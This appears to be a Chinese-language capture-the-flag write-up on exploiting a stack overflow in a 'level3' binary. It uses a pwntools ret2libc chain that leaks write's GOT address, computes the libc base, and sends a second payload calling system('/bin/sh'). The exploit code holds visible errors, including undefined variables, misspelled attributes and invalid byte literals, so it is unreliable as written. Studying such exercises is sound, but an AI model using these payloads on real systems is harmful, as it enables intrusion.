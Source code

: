 第一步：打开我们的 `IDA`，发现我们有一个栈溢出漏洞
![[Pasted image 20231206221950.png]]

第二步，检查是否存在 `system`, `\bin\sh` 发现都没有，那么我们就要先去 1. 找到我们的 `system` 函数的真实地址，2. 找到我们的 `\bin\sh` 字符串的地址或者找到我们的等价的 `sh`，或者把我们的 `\bin\sh` 写入到我们的某一个缓冲区中（gets (）), 或者我们从我们的 `libc` 文件中找到我们的对应字符。
```text
string level3 |grep sh
stirng libc-2.19.so|grep /bin/sh
```

第三步：想办法泄露我们的 `libc` 的**真实地址**，我们的想法一是构造我们的一个 `rop` 链，但是可惜我们不能成功，我们的函数不足。
![[Pasted image 20231206223055.png]]

第四步：之前的经验告诉我们的，如果我们有一个能打印我们的函数地址的工具，我们就可以拿到我们的 `libc` 的真实地址。
注意到我们再系统中存在一个指令 `write`，如果我们成功调用了这个指令，那么我们就能够成功的打印我们的给定的内容，但可惜的是，我们的 `gadget` 不足，我么无法实现。

第五步：再次观察我们的函数，我们发现，我们在函数中已经调用过一次我们的 `write`,
于是我们就可以通过 `rob` 得到我们的 `write` 的真实地址，我们的程序到我们的 `write@plt`,同时把我们的 `write` 对应的 `got` 地址得到。
总结：调用我们的 `write`，把我们的 `write` 的 `got` 表中的数据打出来，
我们于是就可以构造如下所示的脚本
```python
# 打开我们的文件
from pwn import *
io=remote('11.11.11',1)
libc=ELF('./lib/.....')
e=ELF('./level3')
# 获得我们的write的地址，第一次栈溢出
payload=cyclic(0x88+4)+p32(elf.plt["write"])+p32(elf.symbol["vulnerable_function"])+p32(1)+p32(elf.got["write"])+p32(4)#注意我们的参数是我们的倒序压入的，所以我们的第一个参数就是我们的1，第二个参数是我们的对应的值，第三个是我们的长度。
io.recv()
io.sendline(payload)
io.recv()
```

此时我们就能获得一个数据如下：
`\xc06\xe6\xf7`，然后我们的操作就是把这个换成我们的整数，就可以用我们的 `u32` 函数来进行
```python
write_addr=u32(\xc06\x36\xf7)
```

然后，我们就可以把这个地址当作我们的机制地址，然后我们再去根据我们的各种数据加加减减即可
```python
libc_base=write_addr-libc.symbols["write"];
system_addr=libc_base+libc.symbols["system"]
bin_sh_addr=libc_base+next(libc.search(b'/bin/sh'))
```

此时，因为我们仍然在我们的 `vulnerable` 函数中，我们就可以构造我们的一个新的 `payload`,来攻击哦我们的一个全新的

```python
payload2=cyclic(0x88+4)+p32(system_addr)+b'BBBB'+p32(bin_sh_addr)
```

